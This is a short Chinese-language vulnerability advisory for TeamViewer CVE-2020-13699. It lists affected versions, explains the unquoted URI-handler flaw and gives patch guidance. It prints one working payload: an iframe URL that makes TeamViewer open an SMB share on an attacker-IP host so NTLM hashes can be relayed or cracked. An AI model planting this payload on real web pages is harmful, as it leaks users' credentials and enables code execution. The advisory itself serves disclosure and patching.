 # TeamViewer-远程代码执行漏洞(CVE-2020-13699).assets

最后更新于：2020-09-23 15:53:05

#### 影响版本

TeamViewer < 8.0.258861
TeamViewer < 9.0.28860
TeamViewer < 10.0.258873
TeamViewer < 11.0.258870
TeamViewer < 12.0.258869
TeamViewer < 13.2.36220
TeamViewer < 14.2.56676
TeamViewer < 15.8.3

#### 漏洞描述

TeamViewer存在未引用的搜索路径或元素的安全缺陷，由于应用程序没有正确引用它的自定义URI处理程序，当安装有TeamViewer的易受攻击版本的系统访问恶意创建的网站时，可能会被利用。
攻击者可以使用精心制作的URL

```
（iframe src='teamviewer10: --play \\attacker-IP\share\fake.tvs'）
```

![img](TeamViewer%20%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E(CVE-2020-13699)/20200918191638492.png)
![img](TeamViewer%20%E8%BF%9C%E7%A8%8B%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E(CVE-2020-13699)/20200918191646922.png)
将恶意iframe嵌入网站中，从而启动TeamViewer Windows桌面客户端并强制其打开远程SMB共享。
Windows将在打开SMB共享时，执行NTLM身份验证，并且可以转发该请求（使用如响应程序之类的工具）以执行代码（或捕获该请求以进行哈希破解）

#### 修复建议

针对此漏洞官方已在8.0.258861、9.0.258860、10.0.258873、11.0.258870、12.0.258869、13.2.36220、14.2.56676、14.7.48350和15.8.3版本中修复。
请受影响的用户参考以下链接安装补丁更新：https://www.teamviewer.com/en/download/previous-versions/